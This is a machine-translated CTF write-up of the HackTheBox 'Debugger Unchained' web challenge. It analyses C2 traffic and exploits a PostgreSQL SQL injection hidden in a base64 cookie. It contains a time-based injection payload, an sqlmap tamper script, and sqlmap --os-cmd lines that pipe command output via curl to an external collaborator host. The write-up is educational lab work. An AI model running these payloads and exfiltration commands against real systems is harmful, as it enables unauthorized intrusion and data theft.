



# HTB —肮脏的钱—调试器被释放写上去

> 原文：<https://infosecwriteups.com/htb-dirty-money-debugger-unchained-write-up-e831a83941e6?source=collection_archive---------1----------------------->

# 调试器已解锁

这是 CTF 黑客盒子公司“脏钱”中的一个网络应用。它被评为容易，在英国夏天意想不到的炎热中，我设法把它变成了一个坚硬的盒子…一切都将得到解释。

这篇文章没有什么特别新的东西，我也读过一些比我的过程更优雅的东西，但是可能有一些新的或者至少不同的技术可以被其他人使用。

# 挑战描述

> 我们的 SOC 团队在其中一个工作站中发现了一种新的恶意软件。他们从受感染机器的内存中提取了看起来像 C2 的配置文件，并导出了 C2 流量的网络捕获以供进一步分析。为了找出罪魁祸首，我们需要你研究 C2 的基础设施，并检查潜在的弱点，可以让我们进入服务器。

## 挑战文件

我们还得到了另外两个文件；

*   c2 .个人资料
*   traffic.pcapng

下面显示了“c2.profile”文件的内容。

```
{
    'sleeptime': 3000,
    'jitter': 5,
    'user_agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; Xbox; Xbox One) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36 Edge/44.18363.1337',
    'headers': {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'cross-site',
        'Cookie': '__cflb=$$UUID$$; __cfuid=$$RECV$$'
    },
    'get_uri': '/assets/jquery-3.6.0.slim.min.js',
    'set_uri': '/assets/jquery-3.6.0.slim.min.js'
}
```

以下截图是来自“traffic.pcapng”文件的示例。


Wireshark TCP 流



Wireshark TCP 流

## 挑战

从 c2.profile 中，我们可以看到几个有趣的点。

1.  饼干`__cflb=$$UUID$$;`和`__cfuid=$$RECV$$`
2.  `get_uri`和`set_uri`

考虑到这一点，重点转移到了流量捕捉上。回顾 TCP 流，我们也可以开始看到一些有趣的地方。

对“/assets/jquery-3 . 6 . 0 . slim . min . js”的 GET 请求

```
GET /assets/jquery-3.6.0.slim.min.js HTTP/1.1
Host: cdnjs.cloudflair.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; Xbox; Xbox One) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36 Edge/44.18363.1337
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Accept-Language: en-US,en;q=0.5
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Cookie: __cflb=49f062b5-8b94-4fff-bb41-d504b148aa1b;
```

阅读对这个请求的响应，我们看到在 jquery 文件内容的末尾包含了一个“task”变量，它包含了一些突出的 base64。

```
task="eyJpZCI6IDE4LCAiY21kIjogImQyaHZZVzFwSUM5aGJHdz0ifQ==";
```

解码以上揭示以下，更多 base64。

```
{"id": 18, "cmd": "d2hvYW1pIC9hbGw="}
```

一旦解码，我们就能看到实际的命令是什么。

`whoami /all`

按照 Wireshark 中的流，我们看到发出了一个 POST 请求，这次使用了以下 cookie。注意更接近 base64 的 __cfuid 值。

```
Cookie: __cflb=49f062b5-8b94-4fff-bb41-d504b148aa1b; __cfuid=eyJpZCI6IDE4LCAib3V0cHV0IjogIkNsVlRSVklnU1U1R1QxSk5RVlJKVDA0S0xTMHRMUzB0TFMwdExTMHRMUzB0TFFvS1ZYTmxjaUJPWVcxbElDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdVMGxFSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQW85UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFNBOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOUNtUmxjMnQwYjNBdGNYWXpibkZzYlZ4c1lYSnllU0J6ZEdWMlpXNXpJRk10TVMwMUxUSXhMVEl3TWpreU56Z3lNRGd0TVRnNU9USTJNalV3TmkweU5UTXpPVGc1TlRBM0xURXdNREFLQ2dwSFVrOVZVQ0JKVGtaUFVrMUJWRWxQVGdvdExTMHRMUzB0TFMwdExTMHRMUzB0TFFvS1IzSnZkWEFnVG1GdFpTQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNCVWVYQmxJQ0FnSUNBZ0lDQWdJQ0FnSUZOSlJDQWdJQ0FnSUNBZ0lDQkJkSFJ5YVdKMWRHVnpJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUFvOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5SUQwOVBUMDlQVDA5UFQwOVBUMDlQVDBnUFQwOVBUMDlQVDA5UFQwOUlEMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5Q2tWMlpYSjViMjVsSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnVjJWc2JDMXJibTkzYmlCbmNtOTFjQ0JUTFRFdE1TMHdJQ0FnSUNBZ1RXRnVaR0YwYjNKNUlHZHliM1Z3TENCRmJtRmliR1ZrSUdKNUlHUmxabUYxYkhRc0lFVnVZV0pzWldRZ1ozSnZkWEFLVGxRZ1FWVlVTRTlTU1ZSWlhFeHZZMkZzSUdGalkyOTFiblFnWVc1a0lHMWxiV0psY2lCdlppQkJaRzFwYm1semRISmhkRzl5Y3lCbmNtOTFjQ0JYWld4c0xXdHViM2R1SUdkeWIzVndJRk10TVMwMUxURXhOQ0FnSUNCSGNtOTFjQ0IxYzJWa0lHWnZjaUJrWlc1NUlHOXViSGtnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQXBDVlVsTVZFbE9YRUZrYldsdWFYTjBjbUYwYjNKeklDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJRUZzYVdGeklDQWdJQ0FnSUNBZ0lDQWdVeTB4TFRVdE16SXROVFEwSUVkeWIzVndJSFZ6WldRZ1ptOXlJR1JsYm5rZ2IyNXNlU0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdDa0pWU1V4VVNVNWNWWE5sY25NZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdRV3hwWVhNZ0lDQWdJQ0FnSUNBZ0lDQlRMVEV0TlMwek1pMDFORFVnVFdGdVpHRjBiM0o1SUdkeWIzVndMQ0JGYm1GaWJHVmtJR0o1SUdSbFptRjFiSFFzSUVWdVlXSnNaV1FnWjNKdmRYQUtUbFFnUVZWVVNFOVNTVlJaWEVsT1ZFVlNRVU5VU1ZaRklDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQlhaV3hzTFd0dWIzZHVJR2R5YjNWd0lGTXRNUzAxTFRRZ0lDQWdJQ0JOWVc1a1lYUnZjbmtnWjNKdmRYQXNJRVZ1WVdKc1pXUWdZbmtnWkdWbVlYVnNkQ3dnUlc1aFlteGxaQ0JuY205MWNBcERUMDVUVDB4RklFeFBSMDlPSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lGZGxiR3d0YTI1dmQyNGdaM0p2ZFhBZ1V5MHhMVEl0TVNBZ0lDQWdJRTFoYm1SaGRHOXllU0JuY205MWNDd2dSVzVoWW14bFpDQmllU0JrWldaaGRXeDBMQ0JGYm1GaWJHVmtJR2R5YjNWd0NrNVVJRUZWVkVoUFVrbFVXVnhCZFhSb1pXNTBhV05oZEdWa0lGVnpaWEp6SUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ1YyVnNiQzFyYm05M2JpQm5jbTkxY0NCVExURXROUzB4TVNBZ0lDQWdUV0Z1WkdGMGIzSjVJR2R5YjNWd0xDQkZibUZpYkdWa0lHSjVJR1JsWm1GMWJIUXNJRVZ1WVdKc1pXUWdaM0p2ZFhBS1RsUWdRVlZVU0U5U1NWUlpYRlJvYVhNZ1QzSm5ZVzVwZW1GMGFXOXVJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNCWFpXeHNMV3R1YjNkdUlHZHliM1Z3SUZNdE1TMDFMVEUxSUNBZ0lDQk5ZVzVrWVhSdmNua2daM0p2ZFhBc0lFVnVZV0pzWldRZ1lua2daR1ZtWVhWc2RDd2dSVzVoWW14bFpDQm5jbTkxY0FwT1ZDQkJWVlJJVDFKSlZGbGNURzlqWVd3Z1lXTmpiM1Z1ZENBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUZkbGJHd3RhMjV2ZDI0Z1ozSnZkWEFnVXkweExUVXRNVEV6SUNBZ0lFMWhibVJoZEc5eWVTQm5jbTkxY0N3Z1JXNWhZbXhsWkNCaWVTQmtaV1poZFd4MExDQkZibUZpYkdWa0lHZHliM1Z3Q2t4UFEwRk1JQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnVjJWc2JDMXJibTkzYmlCbmNtOTFjQ0JUTFRFdE1pMHdJQ0FnSUNBZ1RXRnVaR0YwYjNKNUlHZHliM1Z3TENCRmJtRmliR1ZrSUdKNUlHUmxabUYxYkhRc0lFVnVZV0pzWldRZ1ozSnZkWEFLVGxRZ1FWVlVTRTlTU1ZSWlhFNVVURTBnUVhWMGFHVnVkR2xqWVhScGIyNGdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0JYWld4c0xXdHViM2R1SUdkeWIzVndJRk10TVMwMUxUWTBMVEV3SUNCTllXNWtZWFJ2Y25rZ1ozSnZkWEFzSUVWdVlXSnNaV1FnWW5rZ1pHVm1ZWFZzZEN3Z1JXNWhZbXhsWkNCbmNtOTFjQXBOWVc1a1lYUnZjbmtnVEdGaVpXeGNUV1ZrYVhWdElFMWhibVJoZEc5eWVTQk1aWFpsYkNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJRXhoWW1Wc0lDQWdJQ0FnSUNBZ0lDQWdVeTB4TFRFMkxUZ3hPVElnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdDZ29LVUZKSlZrbE1SVWRGVXlCSlRrWlBVazFCVkVsUFRnb3RMUzB0TFMwdExTMHRMUzB0TFMwdExTMHRMUzB0Q2dwUWNtbDJhV3hsWjJVZ1RtRnRaU0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQkVaWE5qY21sd2RHbHZiaUFnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQWdVM1JoZEdVZ0lDQUtQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDBnUFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5UFQwOVBUMDlQVDA5SUQwOVBUMDlQVDA5Q2xObFUyaDFkR1J2ZDI1UWNtbDJhV3hsWjJVZ0lDQWdJQ0FnSUNBZ0lGTm9kWFFnWkc5M2JpQjBhR1VnYzNsemRHVnRJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ0lDQkVhWE5oWW14bFpBcFRaVU5vWVc1blpVNXZkR2xtZVZCeWFYWnBiR1ZuWlNBZ0lDQWdJQ0JDZVhCaGMzTWdkSEpoZG1WeWMyVWdZMmhsWTJ0cGJtY2dJQ0FnSUNBZ0lDQWdJQ0FnUlc1aFlteGxaQ0FLVTJWVmJtUnZZMnRRY21sMmFXeGxaMlVnSUNBZ0lDQWdJQ0FnSUNBZ1VtVnRiM1psSUdOdmJYQjFkR1Z5SUdaeWIyMGdaRzlqYTJsdVp5QnpkR0YwYVc5dUlFUnBjMkZpYkdWa0NsTmxTVzVqY21WaGMyVlhiM0pyYVc1blUyVjBVSEpwZG1sc1pXZGxJRWx1WTNKbFlYTmxJR0VnY0hKdlkyVnpjeUIzYjNKcmFXNW5JSE5sZENBZ0lDQWdJQ0JFYVhOaFlteGxaQXBUWlZScGJXVmFiMjVsVUhKcGRtbHNaV2RsSUNBZ0lDQWdJQ0FnSUNCRGFHRnVaMlVnZEdobElIUnBiV1VnZW05dVpTQWdJQ0FnSUNBZ0lDQWdJQ0FnSUNBZ1JHbHpZV0pzWldRSyJ9
```

我们再次对这些值进行解码，直到我们最终检索到之前看到的`whoami /all`命令的输出。(这是我应该更加注意的地方)

```
USER INFORMATION
----------------User Name                     SID                                           
============================= ==============================================
desktop-qv3nqlm\larry stevens S-1-5-21-2029278208-1899262506-2533989507-1000
<REDACTED>
```

继续捕捉，我们还会看到另一条有趣的信息。在一个 POST 请求中，我们看到一个 500 内部服务器错误，它向我们透露了一些重要信息。

```
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: Werkzeug/2.1.2 Python/3.8.13
Date: Fri, 24 Jun 2022 17:05:45 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 18904
Connection: close<!doctype html>
<html lang=en>
  <head>
    <title>psycopg2.errors.UniqueViolation: duplicate key value violates unique constraint "task_outputs_task_id_key"
DETAIL:  Key (task_id)=(20) already exists.
<REDACTED>
  File "/app/application/models/bot.py", line 130, in saveTaskResp
    db.execute(f"""INSERT INTO task_outputs(task_id, output) VALUES ('{id}', '{output}')""")
```

1.  我们看到了“psycopg2”库，这是一个“Python 的 PostgreSQL 适配器”
2.  我们还看到下面的 INSERT INTO 语句似乎容易受到 SQL 注入的攻击，我们还知道我们正在处理一个 PostgreSQL 数据库。

## 剥削

这是事情发生转折的地方。首先，我开始处理一个有效负载，以证明我们确实在查询一个 PostgreSQL 数据库，如果这是真的，查询将导致 10 秒钟的睡眠。以下是整理出来的。

我们获取 version()的一个子字符串，并将它的前 10 个字符与“PostgreSQL”匹配，如果为真，则休眠 10 秒钟。

```
{"id": "400); SELECT case when (SELECT substr(version(),1,10))=$$PostgreSQL$$ then pg_sleep(10) end;--+-","output":1}
```

但是，在将它发送到服务器之前，我们必须记住对有效载荷进行 64 位基础处理。产生了下面的 POST 请求。

```
POST /assets/jquery-3.6.0.slim.min.js HTTP/1.1
Host: cdnjs.cloudflair.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; Xbox; Xbox One) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36 Edge/44.18363.1337
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Accept-Language: en-US,en;q=0.5
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Cookie: __cflb=49f062b5-8b94-4fff-bb41-d504b1481337; __cfuid=eyJpZCI6ICI0MDApOyBTRUxFQ1QgY2FzZSB3aGVuIChTRUxFQ1Qgc3Vic3RyKHZlcnNpb24oKSwxLDEwKSk9JCRQb3N0Z3JlU1FMJCQgdGhlbiBwZ19zbGVlcCgxMCkgZW5kOy0tKy0iLCJvdXRwdXQiOjF9
Content-Length: 0
```

这确实导致执行暂停了 10 秒钟，在这几秒钟后我收到了响应。太好了，我们走了…我花了太多的时间尝试使用所有已知的方法获得代码执行，我不会让你厌烦我所有的时间浪费。所以我求助于 SQLmap，因为我知道这不是一个简单的有效负载。首先，我们需要注入到 cookie 中，没问题，我们还必须对有效载荷进行 base64 编码，有点棘手，最后处理我们之前看到的问题，重复键违规。

因此，一个篡改脚本是有序的，经过多次尝试和错误，下面的脚本是我最后得到的。现在，请不要对我绕过重复键违反的方法进行评判，正如我所说的，天气很热，时间很晚，我很累。

```
import base64
from urllib.parse import quote
from numpy import randomdef tamper(payload, **kwargs):
    params = '{"id": "%s); %s--+-","output":1}' % (random.randint(1000000), payload)
    data = params
    data = base64.b64encode(data.encode('ascii'))
    return data.decode('utf-8')
```

我们这里基本上有一个脚本，它将创建我们需要的 JSON 有效载荷(它将用一个 0 到 1000000 之间的随机整数替换 id——我要求您不要评判我), base64 编码并为我们返回有效载荷。然后，我们可以按以下方式使用该脚本。请注意，我已经让它在没有— os-cmd 标志的情况下运行，以确保 SQLmap 可以识别漏洞。

```
sqlmap -r req.req --data "*" --method POST --tamper tamper.py --dbms PostgreSQL --level 5 --risk 3 --os-cmd "ls -la | curl -H 'Content-Type: application/json' -X POST --data-binary @- http://r7z5rbdnaaq2ecne5ncjyvp9p0vvjk.o
astify.com" --proxy=http://127.0.0.1:8080
```

“req.req”文件只是我们之前使用的 POST 请求，但是自定义注入点放在 cookie 上。

```
Cookie: __cflb=49f062b5-8b94-4fff-bb41-d504b1481337; __cfuid=*
```

谢天谢地，我收到了“ls -la”命令的输出，它是通过 curl 发布到 Burp collaborator 服务器上的。



Burp 合作者接收命令输出

在更多的枚举之后，在根目录中发现了一个“readfile”二进制文件，所以我再次执行该二进制文件，并将输出发送给 Burp collaborator。

```
sqlmap -r req.req --data "*" --method POST --tamper tamper.py --dbms PostgreSQL --level 5 --risk 3 --os-cmd "/readflag | curl -H 'Content-Type: application/json' -X POST --data-binary @- http://r7z5rbdnaaq2ecne5ncjyvp9p0vvj
k.oastify.com" --proxy=http://127.0.0.1:8080
```

最后旗子被取回。



打嗝合作者接收标志

# 结论

虽然我对这个挑战感到沮丧，我觉得我完全过度设计了这个过程，但我内心深处真的很喜欢这个挑战。希望篡改脚本将在未来再次使用，或者其他人也可以利用它。

在[https://www.sentrium.co.uk/](https://www.sentrium.co.uk/)阅读更多

*来自 Infosec 的报道:Infosec 上每天都有很多事情发生，很难跟上。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*